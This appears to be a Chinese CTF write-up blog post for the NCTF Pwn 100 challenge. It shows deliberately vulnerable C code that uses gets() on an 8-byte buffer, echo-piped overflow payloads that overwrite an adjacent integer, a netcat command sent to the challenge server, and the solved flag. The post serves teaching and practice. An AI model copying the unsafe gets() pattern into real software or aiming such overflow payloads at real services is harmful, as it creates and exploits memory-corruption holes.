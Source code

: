 ```yaml
---
layout: post
title: NCTF Pwn 1 题题解
tags: NCTF Write-up Pwn
---
```


* 目录：
{:toc}

### 100 When Did You Born
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/BPjg8J*9v7FTCfDdHLcxV*PlLzdRBJA3iaUJ6qT5H04!/r/dHkBAAAAAAAA){: width="80%"}  

	> nc 115.28.79.166 5555
	> 提交格式为flag{************}
	> 尝试不再Naive
	> 然后将输入发送至115.28.79.166的5555端口，获取flag
	> 
	> Tags: gets, 栈溢出 
	> [test](http://ctf.nuptzj.cn/static/uploads/785732eaf09a34c8e3664ce68d7c8e54/test)  [test.c](http://ctf.nuptzj.cn/static/uploads/ead01a3082b1c650ae75089c3634b7a5/test.c)

* 题解:  
先来看看 test.c: 

	> ```c  
	> #include <stdio.h>
	> 
	> struct Student {
    >     char name[8];
    >     int birth;
	> };
	> 
	> int main(void) {
    >     struct Student student;
    >     printf("What\'s Your Birth?\n");
    >     scanf("%d", &student.birth);
    >     while (getchar() != '\n') ;
    >     if (student.birth == 1926) {
    >         printf("You Cannot Born In 1926!\n");
    >         return 0;
    >     }
    >     printf("What\'s Your Name?\n");
    >     gets(student.name);
    >     printf("You Are Born In %d\n", student.birth);
    >     if (student.birth == 1926) {
    >         printf("You Shall Have Flag.\n");
    >         system("cat flag");
    >     } else {
    >         printf("You Are Naive.\n");
    >         printf("You Speed One Second Here.\n");
    >     }
    >     return 0;
	> }
	> ```  

	再运行该程序试试看:  

	> ```shell
	> biteme@bITeMe:~/下载$ echo -ne "0\n12345678a" | ./test
	> ```  
	> What's Your Birth?
	> What's Your Name?
	> You Are Born In 97
	> You Are Naive.
	> You Speed One Second Here.
	   
	You Are Born In 97, 97 正好是输入中 a 的 ascii 码, 这意味着, gets() 函数将输入超过 8 字节的部分也保留下来, 并且刚好覆盖到高地址(可输出 &student.birth 来观察)的 birth.  
	那么将 a 构造成 1926(0x0786) 就可以满足条件了:

	> ```shell
	> biteme@bITeMe:~/下载$ echo -ne "0\n12345678\x86\x07" | ./test
	> ```
	> What's Your Birth?
	> What's Your Name?
	> You Are Born In 1926
	> You Shall Have Flag.
	> cat: flag: 没有那个文件或目录

	最后用

	> ```shell
	> echo -ne "1\n12345678\x86\x07" | nc -v 115.28.79.166 5555
	> ```

	来获取 flag.


* flag：flag{gets_is_dangerous_+1s}